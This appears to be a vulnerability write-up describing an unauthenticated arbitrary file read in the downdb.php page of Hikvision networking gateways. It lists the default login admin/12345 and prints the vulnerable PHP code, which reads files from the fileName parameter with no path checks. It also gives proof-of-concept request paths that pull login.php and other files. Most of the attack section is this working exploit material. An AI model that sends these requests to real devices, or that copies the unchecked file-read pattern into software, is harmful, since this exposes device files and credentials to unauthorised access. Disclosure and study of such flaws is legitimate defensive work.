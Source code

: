 # HIKVISION Networking Gateway downdb.php Arbitrary File Reading Vulnerability

## Vulnerability Description

Hikvision Networking Gateway There is a vulnerability to download any file in the parameter fileName of the page downdb.php

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HIKVISION networked gateway, streaming media management server</span>

## Network surveying and mapping



## Vulnerability reappears

Default password: admin/12345

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628150554555-c84e3f6d-2054-4587-950c-5234bc7a12e8.png)

The code file with the vulnerability is downdb.php, and any file can be downloaded without authorization:

```php
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

Verify POC:

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628152149896-c63bae3a-6cc6-402a-b234-cacb307547fc.png)


